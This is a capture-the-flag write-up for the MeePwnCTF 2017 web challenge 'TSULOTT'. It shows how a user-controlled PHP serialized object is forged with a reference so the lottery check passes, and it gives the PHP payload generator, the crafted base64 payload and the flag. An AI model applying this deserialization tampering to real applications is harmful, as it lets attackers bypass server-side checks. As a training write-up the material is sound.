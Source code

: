 ```yaml
---
title: TSULOTT (Web 100)
category: MeePwnCTF17
author_member: jokker
show_comments: false
---
```



> Who Wants to Be a Millionaire? Join My LOTT and Win JACKPOTTTT!!!
> Remote: 128.199.190.23:8001

On the challenge website, we have three options:
* Generate a code with 6 numbers
* Enter the code to check if we have won the jackpot
* Showing the php code of the site by submitting *is_debug=1* as GET-parameter

If we submit any 6 numbers to the site, we get a base64 encoded string back:

```
Tzo2OiJPYmplY3QiOjI6e3M6NzoiamFja3BvdCI7TjtzOjU6ImVudGVyIjtzOjE3OiIwMSAwMiAwMyAwNCAwNSAwNiI7fQ==
```

Decoding this string gives us a represantation of an PHP serialized object:

```
O:6:"Object":2:{s:7:"jackpot";N;s:5:"enter";s:17:"01 02 03 04 05 06";}
```

Because of the source-code, we know that the we win the jackpot if the string *enter* equals the string *jackpot*. But jackpot is generated after we submit our numbers. So how can we solve this?

We are in control of the serialized object and luckely, PHP does support references, so we construct an object, where *enter* points to *jackpot* and like this, both hold the same value when checked.

```
<?php
class Object 
{ 
  var $jackpot;
  var $enter; 
} 

$lotto = new Object;
$lotto->jackpot = "01 02 03 04 05 06";
$lotto->enter =& $lotto->jackpot;

echo serialize($lotto);
?>
```

Running this script will give us the following serialized string:

```
O:6:"Object":2:{s:7:"jackpot";s:17:"01 02 03 04 05 06";s:5:"enter";R:2;}
```

And after base64 encoding it, we can submit the final string to the challenge site:

```
Tzo2OiJPYmplY3QiOjI6e3M6NzoiamFja3BvdCI7czoxNzoiMDEgMDIgMDMgMDQgMDUgMDYiO3M6NToiZW50ZXIiO1I6Mjt9
```

Yeesss, we won the jackpot :P

**MeePwnCTF{__OMG!!!__Y0u_Are_Milli0naire_N0ww!!___}**